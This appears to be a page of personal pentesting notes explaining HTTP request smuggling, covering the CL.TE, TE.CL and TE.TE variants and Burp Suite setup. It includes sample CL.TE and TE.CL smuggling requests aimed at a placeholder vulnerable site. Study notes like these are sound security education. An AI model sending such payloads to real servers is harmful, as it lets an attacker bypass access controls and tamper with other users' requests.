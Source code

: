 ```yaml
---
title: HTTP Request Smuggling
category: Web
order: 26
---
```


HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users. 

![HTTP Request Smuggling](/hackingnotes/images/smuggling.png)

Request smuggling is primarily associated with **HTTP/1 requests**.

Most HTTP request smuggling vulnerabilities arise because the `HTTP/1` specification provides two different ways to specify where a request ends: the `Content-Length` header and the `Transfer-Encoding` header. 

* **Content-Length**: It specifies the length of the message body in bytes.

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

* **Trasnfer-Encoding**: It specifies thatthe message body uses chunked encoding. This means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes expressed in **hexadecimal**, followed by a new line, followed by the chunk contents and it's terminated with a size zero.

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

Since HTTP/1 has two differents methods for specifyng the length of HTTP message, it is possible for a single message to use both methods at once.

* **CL.TE**: The front-end server uses the `Content-Lenght` header and the back-end server uses the `Transfer-Encoding` header.
* **TE.CL**: The front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
* **TE.TE**: Both servers support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.


![HTTP Request Smuggling](/hackingnotes/images/smuggling2.png)


# Burpuiste Setup for smuggling attacks

At first we need to download `HTTP Request Smuggler` burp extension may be we can use it. It has a usefull scanner.

We should do this on every request on the repeater tab.

1. Downgrade the protocol to HTTP/1.1.
![HTTP Request Smuggling](/hackingnotes/images/smuggling-downgrade.png)
2. Disable `Update Content-Length`
![HTTP Request Smuggling](/hackingnotes/images/smuggling-update.png)
3. Turn on `Non printable characters`
![HTTP Request Smuggling](/hackingnotes/images/smuggling-linebreak.png)

# CL.TE

Here, the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header. We can perform a simple HTTP request smuggling attack as follows: 

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0\r\n
\r\n
SMUGGLED

```

![HTTP Request Smuggling](/hackingnotes/images/smuggling-clte.png)

# TE.CL

The front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header. We can perform a simple HTTP request smuggling attack as follows: 

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8\r\n
SMUGGLED\r\n
0\r\n
\r\n

```

![HTTP Request Smuggling](/hackingnotes/images/smuggling-tecl.png)
